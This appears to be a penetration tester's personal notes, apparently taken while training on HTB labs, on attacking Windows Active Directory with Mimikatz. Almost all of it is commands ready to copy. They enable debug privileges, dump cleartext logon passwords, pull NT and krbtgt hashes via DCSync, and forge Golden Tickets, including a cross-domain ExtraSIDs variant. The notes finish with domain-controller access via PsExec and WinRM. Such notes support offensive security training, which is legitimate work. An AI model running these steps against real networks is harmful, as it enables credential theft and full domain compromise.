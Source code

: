 To start with mimikatz, run the debug mode to run commands properly:
	- privilege::debug
	- You should receive an OK response if you have the right permissions

- log nameoflog.log
	- This starts the logging functions so you can refer back to previous commands
- sekurlsa::logonpasswords
	- Shows all cleartext passwords stored on the victim
- lsadump::dcsync /user:DOMAIN\username
	- This will produce the NT hash of the user you have specified
- Golden Ticket attack can be used with MimiKatz which will be a Pass-The-Ticket attack aka ExtraSIDS attack
- kerberos::golden /user:"fake username" /domain:"victimDomain".LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
- This was an example of a ticket I had used but command is simple
- /sid is for the child domain you are on, for example used in HTB Labs logistics.inlanefreight.local
- /krbtgt is for the child domain hash. Using the lsadump will produce the hash needed for this. 
- fake username can literally be whatever fake name you come up with, does not need to exist for Golden Tickets
- /sids is the Enterprise Admins group of the root domain, look at Trust Attacks for Windows to see how you can get the SID.
- For any generated tickets, you can run klist to see cached tickets to verify the ticket was created.
- After you verified the ticket, you can run the following command to see if it worked:
	- ls \\target-domain name\c$


Golden Ticket Attack

-The previous block was for a cross domain ticket attack, this will be from a WS to DC
-Things needed are domain name, domain sid, username to impersonate, and krbtgt's hash

- Use PowerView to get the domain sid:
	- Import-Module PowerView
	- Get-DomainSID
- Next, run the following:
	- lsadump::dcsync /user:krbtgt /domain:targeted.local
- Create your golden ticket:
	- kerberos::golden /domain:targeted.local /user:Administrator /sid:DomainSID /rc4:Hash NTLM that came from lsadump /ptt
	- Verify through klist that the ticket was created
	- Use WinRM or PsExec to connect to your ticket
	- Enter-PSSession DC01
	- PsExec.exe \\targetedDomain cmd.exe
	- Example: PsExec.exe \\DC01 cmd.exe
- ![[Pasted image 20230911143438.png]]

